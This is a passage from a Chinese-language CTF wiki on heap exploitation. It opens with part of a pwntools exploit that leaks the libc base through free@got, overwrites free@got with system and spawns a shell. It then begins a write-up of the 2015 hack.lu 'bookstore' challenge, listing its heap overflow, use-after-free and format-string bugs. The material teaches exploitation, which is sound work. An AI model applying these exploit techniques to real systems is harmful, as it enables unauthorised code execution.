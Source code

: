 ```python
delete(1)
# new heap 1's struct will point to old heap 1's content, size 0x20
# new heap 1's content will point to old heap 1's struct, size 0x30
# that is to say we can overwrite new heap 1's struct
# here we overwrite its heap content pointer to free@got
create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
# leak freeaddr
show(1)
r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
system_addr = libc_base + libc.symbols['system']
#gdb.attach(r)
# overwrite free@got with system addr
edit(1, p64(system_addr))
# trigger system("/bin/sh")
delete(0)
r.interactive()
```

## 2015 hacklu bookstore
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/chunk-extend-shrink/2015_hacklu_bookstore)

### 基本信息

```shell
➜  2015_hacklu_bookstore git:(master) file books    
books: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3a15f5a8e83e55c535d220473fa76c314d26b124, stripped
➜  2015_hacklu_bookstore git:(master) checksec books    
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/chunk_extend_shrink/2015_hacklu_bookstore/books'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出該程序是動態鏈接的 64 位程序，主要開啓了 Canary 與 NX 保護。

### 基本功能

該程序的主要功能是訂書，具體如下

- 最多可以訂購兩本書。
- 根據編號來選擇訂購第幾本書，可以爲每本書添加對應的名字。然而在添加名字處出現了任意長度堆溢出的漏洞。
- 根據編號來刪除 order，但是這裏只是單純地 free 掉，並沒有置爲 NULL，因此會出現 use after free 的漏洞。
- 提交訂單，將兩本書的名字合在一起。這裏由於上面堆溢出的問題，這裏也會出現堆溢出的漏洞。
- 此外，在程序退出之前存在一個**格式化字符串漏洞**。
